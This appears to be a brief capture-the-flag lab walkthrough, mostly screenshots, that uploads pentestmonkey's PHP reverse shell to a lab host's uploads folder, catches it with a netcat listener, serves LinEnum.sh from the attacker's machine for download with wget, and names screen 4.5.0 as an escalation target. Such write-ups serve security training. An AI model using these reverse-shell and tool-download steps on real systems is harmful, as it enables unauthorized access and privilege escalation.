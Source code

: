 ```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


![image](https://user-images.githubusercontent.com/33616880/232672538-d984aa25-984f-4c22-a5f8-920f3bb79b0e.png)


![image](https://user-images.githubusercontent.com/33616880/232672567-b4f1c8a8-e121-4e29-a5b2-098f4b4c1eb6.png)


```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
diff -u php-reverse-shell.php shell.php
```
![image](https://user-images.githubusercontent.com/33616880/232672632-55eefa42-eeca-4a5d-8c7c-78a35e18a674.png)


![image](https://user-images.githubusercontent.com/33616880/232672650-896870d9-0dc1-48aa-b837-caff93bc9395.png)
![image](https://user-images.githubusercontent.com/33616880/232672663-f4ba2bfc-05b6-477e-adc8-db3233da4304.png)
![image](https://user-images.githubusercontent.com/33616880/232672710-cc23e9e5-cb37-4688-8c01-969cf7b733c5.png)


```
10.10.10.24/uploads/shell2.php
nc –nvlp 1234
```
![image](https://user-images.githubusercontent.com/33616880/232672763-7d4d30a4-0d52-434a-8edb-5984d4895ad3.png)
![image](https://user-images.githubusercontent.com/33616880/232672771-b9749b20-aafe-4399-a658-b2a007362aca.png)
![image](https://user-images.githubusercontent.com/33616880/232672782-d9bd0ec8-b82f-441b-be71-8bdd4c9c3ec0.png)


```
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/232672837-a43f9b03-ecb6-4c16-8966-9c8493c37512.png)
![image](https://user-images.githubusercontent.com/33616880/232672832-8c3e1108-d6fe-40e7-b4f0-84dce04e3aea.png)


![image](https://user-images.githubusercontent.com/33616880/232672851-82bd17f0-17fc-452e-8082-ea19d7afd45f.png)
![image](https://user-images.githubusercontent.com/33616880/232672860-72151f75-c0e3-46f7-ba0c-22f08b39ec86.png)
